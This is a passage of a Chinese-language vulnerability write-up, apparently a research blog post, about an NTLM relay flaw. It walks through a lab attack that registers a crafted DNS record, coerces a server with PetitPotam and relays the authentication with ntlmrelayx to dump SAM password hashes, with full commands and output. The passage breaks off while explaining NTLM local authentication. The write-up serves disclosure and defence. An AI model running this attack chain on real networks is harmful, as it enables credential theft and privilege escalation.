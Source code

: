  DNS 记录，并将其指向我们的 IP 地址。这种格式最早由 James Forshaw 记录，并在我们之前的博客文章中讨论过，可用于强制机器通过 Kerberos 向受控 IP 地址进行身份验证。当我们使用上述 DNS 记录作为监听器强制 SRV1 时，我们遇到了一个奇怪的行为：中继竟然成功了！  

```
$ dnstool.py -u 'ASGARD.LOCAL\loki' -p loki 192.168.56.10 -a add -r srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.56.3
[-] Adding new record
[+] LDAP operation completed successfully


$ PetitPotam.py -u loki -p loki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!


# ntlmrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.56.14, attacking target smb://SRV1.ASGARD.LOCAL
[*] Authenticating against smb://SRV1.ASGARD.LOCAL as / SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x0c10b250470be78cbe1c92d1b7fe4e91
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:df3c08415194a27d27bb67dcbf6a6ebc:::
user:1000:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Done dumping SAM hashes for host: 192.168.56.14
```

  
更令人惊讶的是，
```
ntlmrelayx.py
```

  
 能够远程转储 SAM 数据库，这意味着我们中继的身份在目标机器上具有特权。这让我们感到奇怪，因为机器账户在其关联的机器上通常不具有特权。  
## 漏洞分析  
  
为了快速理解发生了什么，我们对两种中继攻击进行了网络抓包分析。一个明显的区别是：在使用 
```
srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
```

  
 主机名的中继攻击中，发生了 NTLM 本地认证！相反，当使用 IP 地址作为监听器强制机器时，则发生了标准的 NTLM 认证。  
### NTLM 本地认证  
  
NTLM 本地认证 是 NTLM 认证的一种特殊情况，在这种情况中，服务器会在 
```
NTLM_CHALLENGE
```
